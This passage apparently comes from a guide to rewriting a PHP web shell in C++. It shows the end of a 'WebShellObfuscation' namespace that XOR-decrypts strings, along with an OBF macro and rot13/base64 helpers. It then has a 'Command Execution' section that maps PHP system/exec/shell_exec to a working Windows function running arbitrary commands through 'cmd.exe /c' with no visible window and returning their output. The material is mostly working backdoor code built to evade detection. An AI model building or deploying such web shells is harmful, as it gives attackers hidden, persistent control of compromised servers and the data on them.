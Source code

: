 ```cpp
                result += (data[i] ^ XOR_KEY);
            }
            return result;
        }
    };
    
    std::string rot13(const std::string& input);
    std::string base64Encode(const std::vector<uint8_t>& data);
    std::vector<uint8_t> base64Decode(const std::string& input);
}

#define OBF(str) WebShellObfuscation::makeXorString(str).decrypt()
```

### 2. Command Execution

**PHP Equivalent:**
```php
system($command);
exec($command, $output);
shell_exec($command);
```

**C++ Implementation:**
```cpp
std::string executeCommand(const std::string& command) {
    HANDLE hPipeRead, hPipeWrite;
    SECURITY_ATTRIBUTES sa;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.bInheritHandle = TRUE;
    sa.lpSecurityDescriptor = NULL;
    
    CreatePipe(&hPipeRead, &hPipeWrite, &sa, 0);
    
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.hStdOutput = hPipeWrite;
    si.hStdError = hPipeWrite;
    si.dwFlags |= STARTF_USESTDHANDLES;
    
    std::string cmdLine = "cmd.exe /c " + command;
    
    std::string result;
    if (CreateProcessA(NULL, const_cast<char*>(cmdLine.c_str()), 
                      NULL, NULL, TRUE, CREATE_NO_WINDOW, 
                      NULL, NULL, &si, &pi)) {
        CloseHandle(hPipeWrite);
        
        char buffer[4096];
        DWORD bytesRead;
        while (ReadFile(hPipeRead, buffer, sizeof(buffer), &bytesRead, NULL) && bytesRead > 0) {
            result.append(buffer, bytesRead);
        }
        
        CloseHandle(hPipeRead);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
    
    return result;
}
```
